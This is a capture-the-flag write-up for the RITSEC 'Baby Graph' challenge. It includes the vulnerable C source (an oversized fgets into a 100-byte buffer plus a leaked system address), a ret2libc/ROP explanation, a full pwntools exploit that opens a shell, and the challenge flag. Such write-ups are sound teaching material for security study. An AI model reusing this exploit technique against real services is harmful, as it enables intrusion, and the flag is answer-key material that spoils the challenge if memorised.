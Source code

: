# Baby Graph

This is what happens to your baby when you want a pwner and a graph theorist. Do your part!!!

nc challenges1.ritsec.club 1339

Author: @fpasswd on Discord, @flyingpassword on Twitter

## Challenge

Connecting to the socket prompts us with a yes/no question with some parameters and points.
We must determine whether the graph is Eulerian or not.

Successfully answering 5 prompts will lead us to the `vuln` function, which prints the address to `system` and accepts a line of user input.

```
-> % nc challenges1.ritsec.club 1339
Here is your baby graph
V = 2 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
Y
Here is your baby graph
V = 5 - E = 8
0 2
0 3
0 4
1 2
1 4
2 3
2 4
3 4
Now tell me if this baby is Eulerian? (Y/N)
N
Here is your baby graph
V = 3 - E = 2
0 1
0 2
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Graph functions

```c
void generateGraph() {
    resetGraph();
    V = rand() % (MAXN - 2) + 2;
    E = rand() % ((V * (V - 1)) / 2);
    for (int e = 0; e < E; e++) {
        do {
            int u = rand() % V;
            int v = rand() % V;
            if (u != v && !G[u][v] && !G[v][u]) {
                G[u][v] = G[v][u] = 1;
                deg[u]++;
                deg[v]++;
                break;
            }
        } while (true);
    }

    for (int v = 0; v < V; v++) {
        if (deg[v] % 2) {
            bruh = false;
            break;
        }
    }
}

void printGraph() {
    puts("Here is your baby graph");
    printf("V = %u - E = %u\n", V, E);
    for (int v = 0; v < V; v++) {
        for (int u = v + 1; u < V; u++) {
            if (G[u][v]) {
                printf("%u %u\n", v, u);
            }
        }
    }
}
```

### Vulnerable code

```c
void vuln() {
    char buf[100];

    printf("Here is your prize: %p\n", system);
    fgets(buf, 400, stdin);
}
```

## Solution

I do not know graph theory.

While testing locally, it appears that the answer is more likely to be no.
I found that it was not too rare for all 5 graphs to not be Eulerian.
Therefore, we can try sending `"N N N N N "` multiple times until we succeed.
The time required to get to the `vuln` function varies, but it usually takes no more than a few seconds when targetting the remote.

Once we're sent to `vuln`, we can use the known `system` address to calculate the base address of libc.
From here, we can calculate the address of the `"/bin/sh\x00"` string within libc.

Since PIE is disabled, we can also use rop gadgets from the binary.
In this exploit, we use the `pop rdi; ret` gadget to pass `"/bin/sh\x00"` to `system` from earlier.

Once we fill the buffer and send our payload, we get a shell where we can read the `flag.txt` file.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenges1.ritsec.club --port 1339 babygraph
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('babygraph')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenges1.ritsec.club'
port = int(args.PORT or 1339)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

# IDK GRAPH THEORY LOL
while True:
    try:
        io = start()
        io.send("N N N N N ")
        io.recvuntil("prize: ")
        break
    except:
        io.close()
        pass

leak = io.recvline().decode()[:-1]
system = int(leak, 0)
libc.address = system - libc.sym["system"]
bin_sh = next(libc.search(b'/bin/sh'))

io.success("LIBC: {}".format(hex(libc.address)))
io.success("SYSTEM: {}".format(hex(system)))
io.success("BIN_SH: {}".format(hex(bin_sh)))

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

io.success("POP_RDI: {}".format(hex(pop_rdi)))
io.success("RET: {}".format(hex(ret)))

payload = flat({
    0x78:[
        ret,
        pop_rdi,
        bin_sh,
        system,
        ],
    })

io.sendline(payload)

io.interactive()
```

## Flag

`RS{B4by_gr4ph_du_DU_dU_Du_B4by_graph_DU_DU_DU_DU_Baby_gr4ph}`

